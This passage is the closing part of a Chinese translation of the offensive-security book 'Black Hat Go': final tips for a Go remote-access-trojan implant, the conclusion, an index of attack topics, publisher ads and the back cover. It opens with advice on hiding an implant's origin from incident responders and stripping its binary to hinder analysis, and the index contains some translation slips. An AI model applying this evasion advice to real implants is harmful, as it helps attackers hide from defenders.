此外，考虑修改源代码位置的命名方案。当你构建二进制文件时，该文件将包含包路径。描述性的路径可能会导致事件响应人员追溯到你。此外，在构建二进制文件时，考虑移除调试信息。这额外的好处是使你的二进制文件体积更小且更难被反汇。以下命令可以实现这一点：

```bash
$ go build -ldflags="-s -w" implant/implant.go
```

这些标志被传递给链接器以移除调试信息并剥离二进制文件。

### 添加 ASCII 艺术

你的实现可能一团糟，但如果它有 ASCII 艺术，它就是合法的。好吧，我们没那么严肃。但出于某种原因，每个安全工具似乎都有 ASCII 艺术，所以也许你应该在你的工具里加上。问候是可选的。

## 总结

Go 是编写跨平台植入体的优秀语言，比如你在本章中构建的 RAT。创建植入体可能是该项目中最困难的部分，因为与为操作系统 API 设计的语言（如 C# 和 Windows API）相比，Go 与底层系统的交互具有挑战性。此外，由于 Go 编译为静态编译的二进制文件，植入体可能会导致较大的二进制体积，这可能会对交付造成一些限制。

但对于后端服务，没有比它更好的了。本书作者之一（Tom）与另一位作者（Dan）有一个持续的赌约：如果他不再使用 Go 进行后端服务和通用工具，他将支付 10,000 美元。目前没有他要切换的迹象（尽管 Elixir 看起来很酷）。使用本书中描述的所有技术，你应该应该有一个坚实的基础来开始构建健壮的框架和工具。

我们希望你喜欢这本书并参与练习，就像我们编写它时一样。我们鼓励你继续编写 Go，并使用书中学的技能来构建增强或替换你当前任务的小工具。然后，随着经验的增加，开始处理更大的代码库并构建一些酷炫的项目。为了继续提高你的技能，查看一些较大的 Go 项目，特别是来自大型组织的项目。观看 GopherCon 等会议的演讲，它们引导你学习更高级的主题，并对陷阱和增强编程的方法进行讨论。最重要的是，要开心——如果你构建了了的东西，请告诉我们！

回见。

## 索引

### A

- A 记录, 104, 109–111
- 抽象语法法表示法一 (ASN.1) 编码, 133–135, 137–138
- `acme/autocert`, 235
- `Add(int)`, 27
- 地址解析协议 (ARP) 投毒, 178
- 高级加密标准 (AES) 算法, 242
- 辅助块 (ancillary chunks), 302
- 匿名函数, 126
- API 交互
  - 概述, 51–53
  - Bing 爬虫, 68–76
  - Metasploit, 59–68
  - Shodan, 51–59
- `APIInfo`结构, 55
- `append()`函数, 11
- ARP (地址解析协议) 投毒, 178
- ASN.1 (抽象语法法表示一) 编码, 133–135, 137–138
- 汇编, 216
- 非对称算法, 234
- 非对称加密, 245. 另见加密
- Atom, GitHub, 4–5
- 身份验证, 67, 86–88, 239–241

### B

- 反引号 (backticks), 19
- 基础工作目录, 2
- Base64 编码, 215–216
- `bcrypt`哈希, 235, 237–239
- Beacon, 121
- 伯克利包过滤器 (BPF), 175, 181. *另见* `tcpdump`
- 最佳实践
  - 编码, 19, 49, 66, 185, 195, 329
  - 安全, 96, 236
- `bin`目录, 2
- 二进制文件, 2
- 二进制数据处理, 213–216
- Bing, 68–76
- `bodyType`参数, 46
- 大括号, 14
- `break`语句, 14
- 暴力破解, 252–261
- 缓冲区溢出模糊测试, 188–192
- 缓冲通道, 29, 37–39
- `build`命令, 7–8
- 字节切片 (byte slices), 19
- `bytes`包, 197

### C

- C, 201–212, 290–293
- `transform`, 213
- Caddy Server, 127
- `.Call()`方法, 273
- 别名 (CNAME) 记录, 109–111
- `capture()`函数, 184
- CGO 包, 291
- 通道, 16–17
- `Checker`接口, 220–222
- 块链 (CBC) 模式, 242
- 密文, 234
- 明文
  - 概述, 234
  - 密码, 150
  - 嗅探, 178–180
- 客户端植入体, 323–325, 227–329
- `Client`结构体, 53–54
- 被克隆站点, 90–93
- `Close()`方法, 25
- 关闭的端口, 22
- `Cmd`, 41
- CNAME 记录, 109–111
- Cobalt Strike, 118–124, 278
- COFF 文件头, 282–283
- 冲突, 234
- `Command()`函数, 41
- 命令
  - `build`命令, 7
  - 交叉编译, 7–8
  - `go`命令, 9
  - 复杂数据类型
    - 通道, 16
    - `map`, 11
    - Primitive类型, 10
    - 切片, 11
  - 并发, 16–17
  - 并发扫描, 32
  - `Conn`, 35–38
  - 连接, 24, 25
  - 限制, 7–8
  - 控制结构, 14–16
  - 便利函数, 46–47
  - `Copy()`函数, 40
  - `createChunk()`方法, 304–305
  - `CreateRemoteThread()` Windows, 275–276
  - 凭据收集攻击, 90–93
  - 关键块, 302
  - 交叉编译, 7–8
  - 跨站脚本, 94
  - `crypto`包, 197, 235
  - 加密
    - 概述, 234–235
  - 哈希, 234
- `curl`, 40, 79

### D

- Data Directory, 285–287
- 数据映射, 71–73, 125
- 数据类型
  - 通道, 16
  - `map`, 11
  - Primitive类型, 10
  - 切片, 11
- 数据库矿工, 161–170
- `debug`包, 197
- 解码函数, 300
- 解码过程, 308
- 解密, 234. 另见加密
- `DefaultServerMux`, 78–79
- `defer`, 49
- DELETE 请求, 47–48
- `dep`工具, 9
- 开发环境搭建, 1–10
- `Dial()`方法, 24
- 方言, 132–133
- 指令, 19
- Dirty COW, 201–204
- DNS 客户端, 104–117
- DNS 代理, 124–127
- DNS 服务器, 117–129
- DNS 隧道, 121
- `do`循环, 15
- Docker, 90, 118–122, 154–158
- 文档数据, 69
- 文档对象模型 (DOM), 74
- 域名前置, 98
- DOS Header, 281
- DWORD, 271

### E

- `echo`服务器, 32, 35–37
- Empire, 121
- `Encode()`方法, 65
- `encodeDecode()`函数, 308
- 编码包, 197
- 编码过程, 308
- 加密, 234, 242–252
- 字节序函数, 299
- 错误处理, 17–18
- 错误消息, 51
- 异或 (XOR), 307–312
- 可执行和链接格式 (ELF), 203
- 漏洞利用, 196–212
- 导出地址表 (EAT), 279

### F

- 字段标签, 19–20, 139
- 文件系统, 170–171
- 文件类型过滤器, 73
- 过滤的端口, 22
- 过滤搜索结果, 73–76
- 防火墙, 22–23
- 固定字段标签, 140
- `Flusher`, 42
- `fmt`包, 25
- FOCA, 69
- `Foo`结构体, 19
- `for`循环, 15
- 格式化
  - 数据, 38, 113–114
  - 源代码, 9
- Frida, 278
- 全限定域名名称 (FQDN), 104
- 模糊测试 (fuzzing), 188–196

### G

- 气隙安全漏洞, 41
- `Get()`函数, 46
- `get()` HTTP 函数, 227–229
- `GetLoadLibAddress()`函数, 275
- `GetProcessAddress()`函数, 275
- `GetRegex()`函数, 163
- `GetSchema()`函数, 163, 165
- Gieben, Miek, 104
- GitHub Atom, 4–5
- GNU 编译器集合 (GCC), 290
- `go build`命令, 6–7
- Go DNS 包, 104
- `go doc`命令, 8
- `go fmt`命令, 9
- `go get`命令, 8–9
- Go Playground 运行环境, 10
- `go run`命令, 6

#### Go 语法

- 复杂数据类型, 10–11
- 并发, 16–17
- 控制结构, 14–16
- 数据类型, 10–11
- 接口类型, 13
- 映射 (maps), 11
- 模式, 12–14
- 指针, 12
- 基础数据类型, 10–11
- 切片 (slices), 11
- 结构体类型, 12–13
- `go vet`命令, 9
- `GOARCH`限制, 7–8
- GoLand, 5–6
- `golint`命令, 9
- `GOOS`限制, 7–8
- `gopacket`包, 174
- `gopacket/pcap`子包, 174–175
- `GOPATH`环境变量, 2–3
- `goquery`包, 69
- `gorilla/mux`包, 82–83, 84, 101
- `gorilla/websocket`包, 96
- `GORO`环境变量, 2–3
- Goroutine (goroutines), 16–17, 26–32
- gRPC 框架, 316–319
- `gss`包, 138

### H

- `HandleFunc()`方法, 82
- `handler()`函数, 75–76
- 处理 (handles), 271。参见 `tokens`
- 握手过程, 22–23
- 基于哈希的认证, 147–150
- 哈希化 (hashing), 234–239
- `Head()`函数, 46
- `head()` HTTP 函数, 226–227
- 十六进制转换, 214
- 十六进制, 198, 281, 297
- HMAC (密钥哈希消息认证码) 标准, 240–241
- Holt, Matt, 127
- 主机搜索, 55–57

#### HTTP 客户端

- 概述, 46–51
- Bing 爬虫, 68–76
- Metasploit 交互, 59–68
- Shodan 交互, 51–59

#### HTTP 服务器

- 概述, 78–90
- 凭据收集攻击, 90–93


- 多路复用，98–102
- `WebSocket` API (WebSockets)，93–98
- `http.HandleFunc()`，78–79

# I

- `if` 语句，18
- 植入代码 (implant code)，323–325, 327–329
- 导入地址表 (IAT)，279
- 元数据索引，68–76
- 死循环，37
- `init()` 函数，101
- 输入/输出 (I/O) 任务，32–35
- `instreamset` 过滤器，73
- 集成开发环境 (IDEs)，3–6
- `interface()` 类型，97
- 接口类型，13
- `io` 包，32, 197
- `io.Pipe()` 函数，43
- `io.ReadCloser`，49
- `io.Reader`，32–35, 46
- `io.ReadAll()` 函数，49
- `io.Writer`，32–35

# J

`Java`，118–120
- `JavaScript`，94–95
- `JBoss`，198
- `JetBrains GoLand`，5–6
- `jQuery` 包，69
- `JS Bin`，94
- `JSON`，19, 50, 54, 139, 159

# K

- `Kerberos`，133
- `Kernel32.dll`，275
- 密钥哈希消息认证码 (HMAC) 标准，240–241
- 键盘记录 (keylogging)，93–98
- Kozierok, Charles M.,22

# L

- 实验室环境，118–121
- `len` 字段标签，140
- 库，2
- 轻量级线程，16–17
- `loadLibraryA()` 函数，275
- `Login()` 方法，66
- `Logout()` 方法，66, 68
- 循环，15, 37
- `Lua` 插件，225–232

# M

- `advise()` 函数，205
- 幻数字节 (magic bytes)，296
- `main()` 函数，17
- `make()` 函数，11
- 强制完整性控制 (Mandatory Integrity Control)，271
- 映射数据，71–73, 125
- 映射 (maps)，11
- `Marshal()` 方法，19
- 序列化 (marshaling)，135
- `MD5` 哈希，236–237
- 内存，273–274
- 消息认证，239–241
- 消息码 (MACs)，234
- `MessagePack`，60
- 元数据，69, 138–139
- `Metasploit Framework`，59–68, 213
- `Meterpreter`，61, 98–102
- `Microsoft` API，263–265
- `Microsoft SQL` (MSSQL) 数据库，157–158, 160–161
- `Microsoft Visual Code`，55
- 中间件，80–81, 83–88
- `MinGW-w64`，290
- `mod` 工具，9
- `MongoDB` 数据库，154–156, 158–160
- `MsfVenom`，213, 278
- `Msg` 结构体，106–107
- `MSYS2`，290
- 多通道通信，30–32
- 多路复用，98
- 互斥锁 (mutex)，129
- 相互认证，248–252
- `MySQL` 数据库，156–157, 160

# N

- 命名函数，126
- 原生插件，218–224
- `negracket` 包，83
- 漏洞扫描器，217
- `net` 包，24–25, 197
- `Netcat`，40–44
- `net.Conn`，35
- `net/http` 标准，46, 48
- `New()` 辅助函数，53–54
- `NewProperties()` 函数，72
- `NewRequest` 函数，48
- `Nmap`，225
- 非并发扫描，25–26
- `NoSQL` 数据库，154, 158–160
- `NT` 管理器 (NTLM) 认证，150–151
- `NTLM` 安全 Provider (NSSP)，133–135
- `NTLMv2`，148
- 数字转换，214

# O

- 混淆，307
- `Office XML` 文档，69
- `offset` 字段标签，140
- `omitempty`，62
- 开放端口，22
- `OPSEC`，329
- 可选头部 (Optional Header)，284–285
- `Oracle`，154
- `os` 包，197
- `os/exec` 包，41

# P

- 软件包，2, 8–9
- 数据包捕获与过滤，175–180
- `panic()` 函数，107, 112
- 被动侦察，51, 59
- 哈希传递 (pass-the-hash)，147–150
- 密码，146–151, 222–224
- 请求，47
- 负载荷 (payloads)，101, 302–307
- `pcap`，175
- `PDF` 文件，69
- `PE` (可执行文件) 格式，279–289
- `Reader`，43
- `PKCS` (公共密钥密码标准)，242
- `pkg` 目录，2–3
- 占位符，83, 89
- `Plan` 操作系统，216
- 插件，225–232
- 原生，218–224
- 插件包，219
- `PNG` 格式，296–307
- 指针，12
- 可执行文件 (PE) 格式，279–289
- 可扩展网络图形 (PNG) 图像，296–307
- 可用性，24–25
- 端口转发，23, 39–40
- 端口扫描器，180–185, 222–224
- 扫描，23–32
- `Post()` 函数，46–47
- `Form()` 函数，47
- `Postgres` 数据库，156–157, 160–161
- `PostgreSQL` 数据库，156–157, 160–161
- `PreImage()` 函数，298
- 基础数据类型，10–11
- `process()` 函数，72–73
- `Process Hacker`，278
- 进程注入，268–269
- `Process Monitor`，278
- `ProcessImage()` 方法，302–303
- `processmem()` 函数，205
- 项目结构，52–53, 54
- 消息结构体 (Msg)，106–107
- 原始变量，77
- `Protocol Buffers` (Protobuf)，3116
- `PsExec`，131
- 公钥加密，242–245
- `PUT` 请求，47
- `Python`，197

# Q

- 查询参数，73–76

# R

- 竞态条件，106
- 快速 (Rapid)，60
- 远程访问木马 (RATs)，315–329
- 原始转换，215
- `RC2`，252
- `ReadString()` 函数，38
- 侦察，51, 59
- 重定向，76
- 反射包，138–139
- 反射化 (reflection)，132
- 正则表达式，13, 64
- 表达式，13, 64
- 远程访问木马 (RATs)，315–329
- 远程过程调用 (RPC)，59, 64
- 请求/响应循环，46
- 响应处理，48–51
- 路由器，79
- `Roundcube`，90

# S

- 盐 (salts)，234
- 扫描器，220
- 原生插件，218–224
- 数据库，154
- 漏洞注入，192
- 爬虫数据，68–76
- 搜索，104
- 语法，73–76
- 加密令牌 (tokens)，133–134
- 发送方法，66
- 服务，78
- `SYN` Cookie，180–185
- `SYN` 数据包，22
- `SYN-ACK`，22
- `SYN` 洪水攻击防护，180–185
- 状态调用 (syscall)，197, 266–269
- `Syscall6()` 函数，210
- 字符串 (strings)，11, 34
- 切片 (slices)，11
- 隐写术 (steganography)
  - 概述，295
  - `PNG` 格式，296–307
- `XOR`，312
- 字符串转换包 (strconv)，25
- 字符串长度 (strlen())，17
- 字符串转整数 (strToInt())，304
- 结构体 (structs)
  - `APIInfo` 结构体，55
  - `Client` 结构体，53–54
  - 编码，135
  - `Foo` 结构体，19
  - 处理，142–143
  - `Msg` 结构体，106–107
  - `Status` 结构体，50–51
  - 类型，12–13
- 结构化数据，18–19, 50–51
- 存根 (Stub)，281
- 子目录，2–3
- 子域名，107–117
- `switch` 语句，14, 129, 143
- 交换网络，178
- 对称算法，234
- 对称密钥加密，242–245
- 系统调用 (syscall)，197, 266–269
- `Syscall6()` 函数，210

`unsafe` 包, 197

`unsafe.Pointer` 类型, 266–267

`USER` 属性, 190

实用程序, 67–68

# V

`{{variable-name}}` 规范, 89

动词, 47

`Vim` 编辑器, 3–4

`vim-go` 插件, 3

虚拟机 (VMs), 118–120

虚拟内存, 273–274

`VirtualAllocEx`, 273–274

`VirtualFreeEx()` Windows 函数, 277–278

`VMWare Workstation`, 118–120

`VS Code`, 5

漏洞模糊测试器, 188–196

# W

`WaitForSingleObject()` Windows 函数, 276–277

`waitFor()` 函数, 206

`WaitGroup`, 27–28

`walkFn()` 函数, 171

`WebSocket` API (WebSockets), 93–98

`while` 循环, 15

`Windows` APIs, 263–265

`Windows` DLL, 218–219

`Windows` VM, 127

`winmods` 文件, 270

`WINNT.H` 头文件, 285–286

`Wireshark`, 102, 225

工作函数, 28–30, 111–112

封装函数, 136–137

`WriteData()` 函数, 305–307, 311

`WriteProcessMemory()` 函数, 274–275

`writer.Flush()` 函数, 38

`WriteString()` 函数, 38

# X

`XML`, 19–20, 69

`XOR`, 307–312

《Black Hat Go》采用 New Baskerville、Futura、Dogma 和 The Sans Mono Condensed 字体。

# 更新

访问 `https://nostarch.com/blackhatgo/` 获取更新、勘误和其他其他信息。

NO STARCH PRESS 出版的更多务实读籍



# 实战中的漏洞狩猎

《网络黑客攻击指南》

作者：PETER YAWORSKI

2019年7月，264 页，$39.95

ISBN 978-1-59327-861-8


# 恶意软件数据科学

## 攻击检测与归因

作者：JOSHUA SAXE

合著：HILLARY SANDERS

2018年9月，272 页，$49.95

ISBN 978-1-59327-859-5



# 黑客必备的 Linux 基础

# Kali 入门学习网络、脚本与安全

作者：OCCUPYTHEWEB

2018年12月，248 页，$34.95

ISBN 978-1-59327-855-7



# 严肃的密码学

现代加密实战介绍

作者：JEAN-PHILIPPE AUMASSON

2017年11月，312 页，$49.95

ISBN 978-1-59327-826-7



# 灰帽 C

## 黑客创建与自动化安全工具指南

作者：BRANDON PERRY

2017年6月，304 页，$39.95

ISBN 978-1-59327-759-8



# Azure 应用渗透测试

# 测试与部署安全的权威指南

作者：MATT BUROUGH

2018年7月，216 页，$39.95

ISBN 978-1-59327-863-2

电话：1.800.420.7240 或

1.415.863.9900

邮箱：SALES@NOSTARCH.COM

网站：WWW.NOSTARCH.COM

> “安全领域进行 Go 开发所需的一切” —— HD Moore，Metasploit 项目和 Critical Research 公司创始人

《Black Hat Go》探索了 Go 语言的阴暗面，这种语言因其简单、高效和可靠备受黑客推崇。它提供了实战策略，帮助你测试系统、构建并自动化工具以提升攻击安全技能，一切通过 Go 实现。

你将从 Go 语法和哲学的概述开始你的之旅，并开始探索用于工具开发的示例，包括 HTTP、DNS 和 SMB 等常见网络协议。随后，你将深入渗透测试人员遇到的各种策略和问题，解决数据窃取、数据包嗅探和漏洞利用等问题。在进入加密、攻击微软 Windows 和实施隐写术之前，你将创建动态的可插件工具。

你将学习如何：

- 用于自己安全项目的高性能工具
- 创建与远程 API 交互的工具
- 爬取任意 HTML 数据
- 构建 HTTP 服务器
- 自己的 DNS 服务器和代理
- 使用 DNS 隧道建立突破限制网络的 C2 通道
- 创建漏洞模糊测试器以发现应用程序漏洞
- 使用插件和扩展使产品面向未来
- 构建 RC2 对称密钥破解
- 在便携网络图形 (PNG) 图像中植入数据。

准备好增加你的安全工具库了吗？那么我们开始吧！

# 作者简介

Tom Steele、Chris Patten 和 Dan Kottmann 拥有超过30 年的渗透测试和攻击安全经验，并举办过多次 Go 培训和开发课程。（详情见内页。）


